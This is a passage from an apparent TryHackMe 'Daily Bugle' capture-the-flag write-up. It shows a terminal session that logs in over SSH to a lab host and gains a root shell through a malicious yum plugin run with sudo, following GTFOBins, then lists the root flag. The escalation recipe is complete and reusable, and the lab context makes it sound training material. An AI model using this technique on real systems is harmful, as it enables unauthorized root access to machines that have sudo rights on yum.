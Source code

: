     ```
    ┌──(kali㉿kali)-[~/桌面/THM/Daily Bugle]
    └─$ ssh jjameson@10.10.223.218                                                     
    The authenticity of host '10.10.223.218 (10.10.223.218)' can't be established.
    ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.223.218' (ED25519) to the list of known hosts.
    jjameson@10.10.223.218's password: 
    Last login: Wed Dec 13 11:00:08 2023
    [jjameson@dailybugle ~]$ TF=$(mktemp -d)
    [jjameson@dailybugle ~]$ cat >$TF/x<<EOF
    > [main]
    > plugins=1
    > pluginpath=$TF
    > pluginconfpath=$TF
    > EOF
    [jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
    > [main]
    > enabled=1
    > EOF
    [jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
    > import os
    > import yum
    > from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
    > requires_api_version='2.1'
    > def init_hook(conduit):
    >   os.execl('/bin/sh','/bin/sh')
    > EOF
    [jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
    已加载插件：y
    没有匹配 y 的插件
    sh-4.2# ls
    user.txt
    sh-4.2# cd /
    sh-4.2# dir
    bin  boot  dev	etc  home  lib	lib64  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var
    sh-4.2# cd root
    sh-4.2# dir
    anaconda-ks.cfg  root.txt
    ```

## Reference 

[Daily Bugle](https://tryhackme.com/room/dailybugle)

[Joomla-3.7.0](https://blog.csdn.net/cgjil/article/details/132766854)

[GTFOBins/yum](https://gtfobins.github.io/gtfobins/yum/)


